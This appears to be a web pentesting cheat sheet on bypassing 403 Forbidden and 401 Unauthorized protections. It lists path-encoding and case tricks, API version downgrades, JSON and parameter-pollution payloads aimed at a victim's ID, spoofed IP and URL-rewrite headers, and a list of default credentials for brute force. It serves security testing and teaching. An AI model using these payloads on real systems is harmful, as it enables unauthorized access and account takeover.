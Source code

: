 #### 403 Forbidden/Basic Authentication/401 Unauthorized \(bypass\)

* Try using **different verbs** to access the file: _GET, POST, INVENTED_
* If _/path_ is blocked, try using _**/**_**%2e/**path __\(if the access is blocked by a proxy, this could bypass the protection\). Try also _/**%252e**/path_ \(double URL encode\)
* Try Unicode bypass: _/**%ef%bc%8f**path_ \(The URL encoded chars are like "/"\) so when encoded back it will be _//path_ and maybe you will have already bypassed the _/path_ name check
* Try to **stress the server** sending common GET requests \([It worked for this guy wit Facebook](https://medium.com/@amineaboud/story-of-a-weird-vulnerability-i-found-on-facebook-fc0875eb5125)\).
* **Other path bypasses**:
  * site.com/secret –&gt; HTTP 403 Forbidden
  * site.com/SECRET –&gt; HTTP 200 OK
  * site.com/secret/ –&gt; HTTP 200 OK
  * site.com/secret/. –&gt; HTTP 200 OK
  * site.com//secret// –&gt; HTTP 200 OK
  * site.com/./secret/.. –&gt; HTTP 200 OK
  * site.com/secret.json –&gt; HTTP 200 OK \(ruby\)
* **Other bypasses:**
  * /v3/users\_data/1234 --&gt; 403 Forbidden 
  * /v1/users\_data/1234 --&gt; 200 OK
  * {“id”:111} --&gt; 401 Unauthriozied
  * {“id”:\[111\]} --&gt; 200 OK
  * {“id”:111} --&gt; 401 Unauthriozied
  * {“id”:{“id”:111}} --&gt; 200 OK
  * {"user\_id":"&lt;legit\_id&gt;","user\_id":"&lt;victims\_id&gt;"} \(JSON Parameter Pollution\)
  * user\_id=ATTACKER\_ID&user\_id=VICTIM\_ID \(Parameter Pollution\)
* Go to [https://archive.org/web/](https://archive.org/web/) and check if in the past that file was **worldwide accessible**.
* **Fuzz the page**: Try using HTTP Proxy **Headers**, HTTP Authentication Basic and NTLM brute-force \(with a few combinations only\) and other techniques. To do all of this I have created the tool [**fuzzhttpbypass**](https://github.com/carlospolop/fuzzhttpbypass).
  * `X-Originating-IP: 127.0.0.1` 
  * `X-Forwarded-For: 127.0.0.1` 
  * `X-Remote-IP: 127.0.0.1` 
  * `X-Remote-Addr: 127.0.0.1`
  * `X-ProxyUser-Ip: 127.0.0.1`
  * `X-Original-URL: 127.0.0.1`
  * If the **path is protected** you can try to bypass the path protection using these other headers:
    * `X-Original-URL: /admin/console`
    * `X-Rewrite-URL: /admin/console`
* **Guess the password**: Test the following common credentials. Do you know something about the victim? Or the CTF challenge name?
* [**Brute force**](../../brute-force.md#http-brute)

  Common creds
  ```text
  admin    admin
  admin    password
  admin    1234
  admin    admin1234
  admin    123456
  root     toor
  test     test
  guest    guest
  ```
